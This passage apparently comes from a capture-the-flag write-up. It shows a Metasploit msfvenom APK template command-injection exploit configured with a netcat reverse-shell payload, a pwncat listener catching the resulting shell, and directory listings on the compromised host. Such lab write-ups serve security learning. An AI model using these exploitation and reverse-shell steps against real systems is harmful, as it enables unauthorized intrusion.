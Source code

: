 ```plaintext
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/cyfun/.msf4/local/msf.apk
```

Then we select `android`, specify our template and set whatever a lhost.

On our machine we just launch a listener:

```plaintext
$ pwncat -l 4444 -vv
INFO: Listening on :::4444 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:4444 (family 2/IPv4, TCP)
INFO: Client connected from 10.129.77.135:43478 (family 2/IPv4, TCP)
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

## System exploitation

Let's see where we are and locate the flag:

```plaintext
$ ls -lhA
total 20K
drwxrwxr-x 2 kid kid 4.0K Feb  3 07:40 __pycache__
-rw-rw-r-- 1 kid kid 4.4K Feb  3 11:03 app.py
drwxrwxr-x 3 kid kid 4.0K Feb  3 07:40 static
drwxrwxr-x 2 kid kid 4.0K Feb  3 07:40 templates

$ pwd
/home/kid/html

$ ls -lhA ..
total 52K
lrwxrwxrwx 1 root kid    9 Jan  5 20:31 .bash_history -> /dev/null
-rw-r--r-- 1 kid  kid  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 kid  kid 3.7K Feb 25  2020 .bashrc
drwxrwxr-x 3 kid  kid 4.0K Feb  3 07:40 .bundle
```